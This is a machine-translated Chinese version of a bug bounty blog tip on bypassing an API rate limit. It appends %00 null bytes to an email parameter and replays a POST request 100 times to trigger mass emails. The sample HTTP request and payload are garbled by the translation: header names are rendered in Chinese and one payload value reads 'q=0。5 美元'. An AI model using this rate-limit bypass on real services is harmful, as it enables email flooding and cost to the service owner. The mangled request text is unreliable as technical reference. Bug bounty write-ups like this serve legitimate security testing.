

# 赏金小费！！绕过 API 速率限制的最简单方法。

> 原文：<https://infosecwriteups.com/bounty-tip-easiest-way-to-bypass-apis-rate-limit-f984fad40093?source=collection_archive---------1----------------------->

# 什么是速率限制？

**速率限制**用于控制网络的进出流量。如果你**正在**使用一个被配置为每分钟允许 100 个请求的特定 API。如果您发出的请求数量超过了那个**限制**，那么将会触发一个错误



我最近被邀请参加一个私人项目，在这个项目中，web 应用程序正在 REST API 上工作，我注意到每当用户点击/users_log_in 端点太多次时，它会反映输出-: *“太多请求”*

```
HTTP/1.1 429 Too Many Requests
Date: Mon, 10 March 2020 05:35:28 GMT
Content-Type: text/plain
```

## 发送以下 POST 请求:-

> POST /secret HTTP/1.1
> 主机:www.Example.com
> 用户代理:Mozilla/5.0(Windows NT 10.0；Win64x64RV:75.0)Gecko/2010 01 01 Firefox/75.0
> 接受:text/html，application/xhtml+xml，application/XML；q=0.9，image/webp，*/*；q=0.8
> 接受-语言:en-US，en；q=0.5
> Accept-Encoding: gzip，deflate
> Content-Type:application/x-www-form-urlencoded
> Content-Length:179
> 产地:https://www.Example.com
> 连接:close
> Referer: https://www .Example.com/secret/new
> 
> 令牌:** *令牌* **&utf8 = % E2 % 9C % 93&user%5email%5D=YOUR_EMAIL@example.com&提交=发送

*现在向入侵者发送这个请求，并通过固定任意有效载荷重复 100 次-:*

> **语言:en-US，en；q=0。5 美元**

& user % 5 EMAIL % 5D = YOUR _ EMAIL @ example . com % 00-并在每次用完您的速率限制后继续添加 *%00* 。


你会在你的收件箱里收到 200 个 OK 状态码和 100 多封邮件

***影响-:*** *没有实际影响* *但是* *如果您正在使用任何电子邮件服务 API 或某些工具，这种类型的攻击会导致财务损失，还会降低您的邮件服务速度*

# HappyHacking #错误提示